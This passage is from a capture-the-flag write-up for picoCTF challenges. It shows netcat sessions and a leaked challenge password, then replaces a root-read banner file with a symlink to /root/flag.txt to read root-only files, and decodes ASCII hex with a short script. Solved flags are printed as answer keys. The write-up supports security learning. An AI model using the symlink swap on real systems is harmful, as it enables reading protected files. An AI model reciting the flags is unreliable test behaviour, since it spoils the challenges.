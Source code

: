 35. don't-you-love-banners
-First use nc to the first sever which leaks the credentials as given below:
nc tethys.picoctf.net 54927
-Then nc to another server using given command 
nc  tethys.picoctf.net 56420
-Enter as per the question:
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
JOHN
-Then look up for the banner and script file 
-Then look at the root directory as given command below:
ls -al /root
-There you can find flag.txt and script.py and many more 
-Now you just have to create a symbolic link but before delete the banner first using given command:
rm banner
-Then create link with /root/flag.txt
- ln -s /root/flag.txt /home/player/banner
-Then exit from the server and again use netcat command as given below:
nc  tethys.picoctf.net 56420
-You see the flag there..: picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
-Wow , Congrats you got the flag and Happy Haunting Nepker's 

36. ASCII Numbers:
-Copy the ASCII Numbers in the text file and you can decode using the given link:
https://onlinestringtools.com/convert-ascii-to-string
-Or you can get it through the python script that i have wrote:
hx = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x35 0x63 0x31 0x31 0x5f 0x6e 0x30 0x5f 0x71 0x75 0x33 0x35 0x37 0x31 0x30 0x6e 0x35 0x5f 0x31 0x6c 0x6c 0x5f 0x74 0x33 0x31 0x31 0x5f 0x79 0x33 0x5f 0x6e 0x30 0x5f 0x6c 0x31 0x33 0x35 0x5f 0x34 0x34 0x35 0x64 0x34 0x31 0x38 0x30 0x7d "

str = hx.replace("0x", "")
str2 = str.replace(" ", "")
print(str2)

final = bytes.fromhex(str2).decode("utf-8")
print(final)
-Wow congrats you got the flag : picoCTF{45c11_n0_qu35710n5_1ll_t311_y3_n0_l135_445d4180} , Happy Haunting Nepker's
37.Specialer:
-I logged in through the given instances and tried to explore different possibility to get the flag. Initially, I tried some linux system commands. But, that didn’t provide any results. It really seemed off. I guess the creator of this challenge has either deleted / moved these binaries from /bin directory.
 
But luckily, there are commands like pwd, cd that provided intended response. So, I decided to autocomplete the command by pressing <tab> button and it yielded the following result:
 
Fortunately, these commands were working fine. So, I decided to construct a shell program that would print the files & folders for the current directory.
